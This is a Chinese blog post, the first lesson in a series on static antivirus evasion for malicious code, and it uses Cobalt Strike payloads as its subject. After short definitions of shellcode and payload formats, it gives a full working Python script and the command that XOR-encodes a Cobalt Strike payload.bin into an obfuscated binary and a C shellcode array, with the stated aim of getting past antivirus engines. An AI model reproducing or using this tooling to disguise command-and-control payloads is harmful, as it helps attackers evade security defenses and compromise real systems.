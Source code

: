 ```yaml
---
date: "2019-11-10T00:00:00Z"
description: 来来回回就会这么一点东西，不想一直停留在一个点上了，准备总结一下，往深的走。
title: 静态恶意代码逃逸（第一课）
url: /archivers/2019-11-10/1
---
```


## 0x00 前言

前五课的代码将会上传至Github，方便读者下载研究 : https://github.com/Rvn0xsy/BadCode

在此之前，我分享过《高级后渗透C2免杀与对抗》，其中对于一些原理铺垫上稍有欠缺，因此准备分成几篇文章来展开。

## 0X01 恶意代码的定义

以下文章中的所有关于恶意代码的定义都以Cobaltstrike的载荷为例。

## 0x02 Shellcode定义

Shellcode是一段机器指令的集合，通常会被压缩至很小的长度，达到为后续恶意代码铺垫的作用。当然你可以通过msfvenom生成各种用于测试的shellcode。

## 0x03 RAW文件
RAW 中文意思是原始的、未经加工的，通常使用Cobaltstrike生成的BIN文件。

![2019-11-10-01-55-50](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/c92e631bce3ba5a65abf23ba121a2dbd.png)

RAW文件是可以直接进行字节操作读取的，因此加载到内存较为方便，通常我一般使用混淆的方式再生成一遍。

## 0x04 C文件

![2019-11-10-01-56-09](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/0e4a46bbd3c992df26cccad1a51b4c28.png)

C文件给出的是一个C语言中的字符数组，也是可以通过以字节单位操作的。

## 0x05 组合

由于反病毒软件对于默认生成的文件查杀较为严格，我通常会采用混淆、加密解密的方式把载荷还原。

```python
import sys
from argparse import ArgumentParser, FileType

def process_bin(num, src_fp, dst_fp, dst_raw):
    shellcode = ''
    shellcode_size = 0
    shellcode_raw = b''
    try:
        while True:
            code = src_fp.read(1)
            if not code:
                break

            base10 = ord(code) ^ num
            base10_str = chr(base10)
            shellcode_raw += base10_str.encode()
            code_hex = hex(base10)
            code_hex = code_hex.replace('0x','')
            if(len(code_hex) == 1):
                code_hex = '0' + code_hex
            shellcode += '\\x' + code_hex
            shellcode_size += 1
        src_fp.close()
        dst_raw.write(shellcode_raw)
        dst_raw.close()
        dst_fp.write(shellcode)
        dst_fp.close()
        return shellcode_size
    except Exception as e:
        sys.stderr.writelines(str(e))

def main():
    parser = ArgumentParser(prog='Shellcode X', description='[XOR The Cobaltstrike PAYLOAD.BINs] \t > Author: rvn0xsy@gmail.com')
    parser.add_argument('-v','--version',nargs='?')
    parser.add_argument('-s','--src',help=u'source bin file',type=FileType('rb'), required=True)
    parser.add_argument('-d','--dst',help=u'destination shellcode file',type=FileType('w+'),required=True)
    parser.add_argument('-n','--num',help=u'Confused number',type=int, default=90)
    parser.add_argument('-r','--raw',help=u'output bin file', type=FileType('wb'), required=True)
    args = parser.parse_args()
    shellcode_size = process_bin(args.num, args.src, args.dst, args.raw)
    sys.stdout.writelines("[+]Shellcode Size : {} \n".format(shellcode_size))

if __name__ == "__main__":
    main()
```

上面这个脚本是我在去年写的，用于把raw文件混淆，生成c语言数组，在后面的文章中，我们也以c/c++语言为主，探究其本质。

### 混淆方案

先生成bin文件，然后运行python脚本：

```
python3 .\xor_shellcoder.py -s .\payload.bin  -d payload.c -n 10 -r out.bin
```

在payload.c中会看到raw文件里的每一个字节与10的异或运算出的C语言数组。

![2019-11-10-01-57-13](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/8f85073149fe77ff6bc0040a50f2e3d4.png)

这个数组的内容，将由下一篇文章用到，实践一下Shellcode混淆免杀。


**注：-r 参数输出的是混淆过的二进制版本shellcode，-d 参数输出的是C语言格式的shellcode**